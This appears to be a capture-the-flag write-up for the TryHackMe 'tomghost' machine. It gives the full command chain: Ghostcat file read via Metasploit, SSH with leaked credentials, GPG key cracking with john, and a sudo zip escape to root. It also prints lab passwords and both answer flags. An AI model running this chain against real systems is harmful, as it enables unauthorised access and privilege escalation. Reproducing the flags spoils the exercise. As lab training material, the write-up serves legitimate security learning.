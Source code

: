# tomghost - Easy

```shell
nmap -T4 -p- -A -v 10.10.2.190

msfconsole -q

search CVE-2020-1938
#ghostcat

use auxiliary/admin/http/tomcat_ghostcat

options

set RHOSTS 10.10.2.190

run

#use credentials from exploit
ssh skyfuck@10.10.2.190

ls -la

#in attacker machine
scp -r skyfuck@10.10.2.190:/home/skyfuck/tryhackme.asc /home/sv/

gpg2john tryhackme.asc > asc_hash

john --wordlist=/usr/share/wordlists/rockyou.txt asc_hash
#we get passphrase

gpg --import tryhackme.asc

gpg --decrypt credential.pgp
#gives SSH merlin's credentials

ssh merlin@10.10.2.190

sudo -l
#we can run zip as root

#GTFObins exploit
TF=$(mktemp -u)

sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
#we get root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 53 - tcpwrapped
  * 8009 - ajp13 - Apache Jserv (Protocol v1.3)
  * 8080 - http - Apache Tomcat 9.0.30

* Checking the webpage on port 8080, we can confirm that it is using Apache Tomcat/9.0.30

* We can search for exploits related to this version on ExploitDB and Metasploit.

* For 9.0.30, we have the ghostcat exploit, and it is available in Metasploit as well.

* Now, this exploit allows us to read files which we do not have access to, and in this case, the filename by default is /WEB-INF/web.xml

* When we run the exploit, we get the contents of this file; it contains the creds skyfuck:8730281lkjlkjdqlksalks

* We can use this creds to log into SSH; user flag can be found in merlin's home directory.

* We have two files - credential.pgp and tryhackme.asc - transfer both files to attacker machine.

* We can use gpg2john to crack the .asc file; we get the passphrase 'alexandru'

* With the help of this passphrase, we can import key and decrypt the pgp file to get the creds merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

* Logging into SSH as merlin, we can check sudo permissions; zip binary can be run as root.

* Using the exploit from GTFObins, we can misuse this and get root shell access.

```markdown
1. Compromise this machine and obtain user.txt - THM{GhostCat_1s_so_cr4sy}

2. Escalate privileges and obtain root.txt - THM{Z1P_1S_FAKE}
```
